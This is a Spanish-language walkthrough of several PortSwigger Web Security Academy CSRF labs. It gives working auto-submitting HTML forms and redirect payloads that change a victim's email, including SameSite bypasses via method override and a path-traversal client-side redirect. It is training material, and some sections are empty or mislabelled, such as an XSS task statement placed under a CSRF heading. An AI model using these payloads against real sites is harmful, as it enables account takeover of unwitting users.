

# Cross-site request forgery (CSRF)

### Enunciado

Este laboratorio tiene una función para cambiar el correo electrónico que es vulnerable a ataques CSRF.

Para resolverlo, crea un código HTML que haga un ataque CSRF para cambiar la dirección de correo del usuario que vea la página. Después, súbelo a tu servidor de explotación.

Puedes iniciar sesión en tu propia cuenta con estas credenciales:

* Usuario: **wiener**
* Contraseña: **peter**

### Resolución

Nos logueamos. Interceptamos la petición de cambiar el email para mandarla al **Repeater**.

<figure><figcaption></figcaption></figure>

Es el único parámetro que se envía. Vamos al **exploit server** y ahí creamos la plantilla HTML maliciosa.

```
<html>
    <body>
        <form action='https://0a4100b10448eae680482b6e00b50061.web-security-academy.net/my-account/change-email' method='POST'>
            <input name="email" value="hola@beafn28.com" type="hidden"/>  
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Lo mandamos a la víctima y completamos el laboratorio.

<figure><figcaption></figcaption></figure>

## Lab: CSRF where token validation depends on request method

### Enunciado

Este laboratorio bloquea todas las etiquetas HTML excepto las personalizadas (custom tags). Realizar un ataque de cross-site scripting (XSS) que inyecte una etiqueta personalizada y que muestre automáticamente un `alert(document.cookie)`.

### Resolución

Nos logueamos. Vemos el código fuente.

```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required="" type="email" name="email" value="">
<input required="" type="hidden" name="csrf" value="p5IRmsvYi1dvF5KChXztQ996AP0jHmHk">
<button class="button" type="submit"> Update email </button>
 </form>
```

Como podemos ver tenemos el valor CSRF escondido. Vamos al exploit server para poner el ataque CSRF.

```
<html>
	<body>
		<form action="https://0a5900700399a8b783b41a3e00420018.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="hola@beafn28.com">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

Vemos que no es como el anterior laboratorio así que cambiamos de POST a GET.

```
<html>
	<body>
		<form action="https://0a5900700399a8b783b41a3e00420018.web-security-academy.net/my-account/change-email" method="GET">
		    <input type="hidden" name="email" value="hola@beafn28.com">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

<figure><figcaption></figcaption></figure>

## Lab: CSRF where token validation depends on token being present

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Usar tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:\
**Usuario**: `wiener`\
**Contraseña**: `peter`

### Resolución

Nos logueamos. Interceptamos la petición si cambiamos el email.

<figure><figcaption></figcaption></figure>

Sí que nos cambia el correo. Por POST si quitamos el CSRF sí cambia entonces no lo valida.

```
<form class="login-form" name="change-email-form" action="https://0aaa00b8047e91f48219ba7e00b100e4.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

Mandamos eso a la víctima.

<figure><figcaption></figcaption></figure>

## Lab: CSRF where token is not tied to user session

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Utiliza tokens para intentar prevenir ataques CSRF, pero no están integrados en el sistema de manejo de sesión del sitio. Usa tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite. Tienes dos cuentas en la aplicación que puedes usar para ayudarte a diseñar tu ataque. Las credenciales son las siguientes:

* wiener:peter
* carlos:montoya

### Resolución

Nos logueamos con los dos. EL CSRF es un campo requerido no lo podemos quitar y si cambiamos el método tampoco nos vale. Interceptamos pero le damos a Drop pero sí que nos copiamos ese token ya que no ha sido usado. Vamos a cambiar el correo de Wiener.

<figure><figcaption></figcaption></figure>

Si cambiamos email y enviamos no nos deja ya que ya ha sido usado.

<figure><figcaption></figcaption></figure>

Usamos el token que copiamos anteriormente y lo enviamos.

<figure><figcaption></figcaption></figure>

Se cambia. Volvemos a hacer lo mimo pero vamos a crear una plantilla en el exploit server con un token que no ha sido usado.

```
<form class="login-form" name="change-email-form" action="https://0aeb002e0308a516809a9965003a0095.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hola@beafn28.com">
    <input required="" type="hidden" name="csrf" value="VLP7coZnGhH6HBDu5GwvShgSWmqPZbhU">
</form>

<script>
    document.forms[0].submit();
</script>
```


<figure><figcaption></figcaption></figure>

## Lab: CSRF where token is tied to non-session cookie

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Utiliza tokens para intentar prevenir ataques CSRF, pero no están completamente integrados en el sistema de manejo de sesión del sitio. Usar tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite. Tienes dos cuentas en la aplicación que puedes usar para ayudarte a diseñar tu ataque. Las credenciales son las siguientes:

* wiener:peter
* carlos:montoya

### Resolución

Nos logueamos. Miramos el código fuente.&#x20;

<figure><figcaption></figcaption></figure>

Interceptando la petición y lo mandamos a Repeater. Cuando accedo, **me redirige a /login**, lo que cierra la sesión actual **y además establece una nueva cookie de sesión**. Luego, vamos a **iniciar sesión como el usuario carlos**, y **probar a reemplazar la cookie csrfKey y el parámetro csrf con los valores del usuario wiener**.

Nos damos cuenta que solo cambia la cookie de session pero no podemos hacer mucho más así que nos fijamos en el campò de búsqueda.

<figure><figcaption></figcaption></figure>

Vemos un nuevo valor en la cookie por lo que podemos setear un valor que queremos en la cookie.





Habiendo leído esas páginas realizamos este paylaod.

<figure><figcaption></figcaption></figure>

Ya hemos seteado una nueva cookie.

```
<form class="login-form" name="change-email-form" action="https://0a84007904ed8a5482329ceb005f00d4.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pepe@test.com">
    <input required="" type="hidden" name="csrf" value="y2RwTkKTYiI0d6AWTp2BuMVGZw8FPtnx">
</form>


```

<figure><figcaption></figcaption></figure>

## Lab: CSRF where token is duplicated in cookie

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta usar la técnica insegura de prevención de CSRF conocida como "double submit".

Usa tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite. Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

misma CSRF es el mismo con que sea el mismo se envia, se tiene en cuenta para setearlo

```
<form class="login-form" name="change-email-form" action="https://0a6c006804cbfb2e8076d04400b00072.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
    <input required="" type="hidden" name="csrf" value="test">
</form>


```

## Lab: SameSite Lax bypass via method override

### Enunciado

**La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.** Para resolver el laboratorio, **realiza un ataque CSRF que cambie la dirección de correo electrónico de la víctima.** Debes usar el **servidor de exploits proporcionado** para alojar tu ataque.

**Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:**

* **Usuario:** `wiener`
* **Contraseña:** `peter`

> Las restricciones predeterminadas de SameSite difieren entre navegadores. Como la víctima usa **Chrome**, se recomienda **también usar Chrome (o el navegador Chromium incorporado en Burp)** para probar tu exploit.

### Resolución

```
<script>
    location="https://0a2a006c03164d6803a0333007700b5.web-security-academy.net/my-account/change-email?email=c@testing.com&_method=POST";
</script>
```

## Lab: SameSite Strict bypass via client-side redirect

### Enunciado

**La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.** Para resolver el laboratorio, **realiza un ataque CSRF que cambie la dirección de correo electrónico de la víctima.** Debes usar el **servidor de exploits proporcionado** para alojar tu ataque.

**Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:**

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

```
<script>
    location="https://0a380007037a1a248062a34c00b70036.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail=hacked@hacked.com%26submit=1";
</script>
```

## Lab: SameSite Strict bypass via sibling domain

### Enunciado

**La función de chat en vivo de este laboratorio es vulnerable a secuestro de WebSocket en el lado del cliente (CSWSH, por sus siglas en inglés).**

Para resolver el laboratorio, **inicia sesión en la cuenta de la víctima.**

Para hacerlo, **usa el servidor de exploits proporcionado** para realizar un ataque CSWSH que **exfiltre el historial de chat de la víctima** al servidor predeterminado de **Burp Collaborator**.

El historial de chat **contiene las credenciales de inicio de sesión en texto claro**.

> Si aún no lo has hecho, te recomendamos completar nuestro tema sobre **vulnerabilidades en WebSocket** antes de intentar este laboratorio.

### Resolución

2 scrips

```
```

## Lab: SameSite Lax bypass via cookie refresh

### Enunciado

**La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF.** Para resolver el laboratorio, **realiza un ataque CSRF que cambie la dirección de correo electrónico de la víctima.** Debes usar el **servidor de exploits proporcionado** para alojar tu ataque.

**El laboratorio admite inicio de sesión basado en OAuth.**\
Puedes iniciar sesión a través de tu cuenta de redes sociales con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

> Las restricciones predeterminadas de SameSite difieren entre navegadores. Como la víctima usa **Chrome**, se recomienda **también usar Chrome (o el navegador Chromium incorporado en Burp)** para probar tu exploit.

### Resolución

```
```
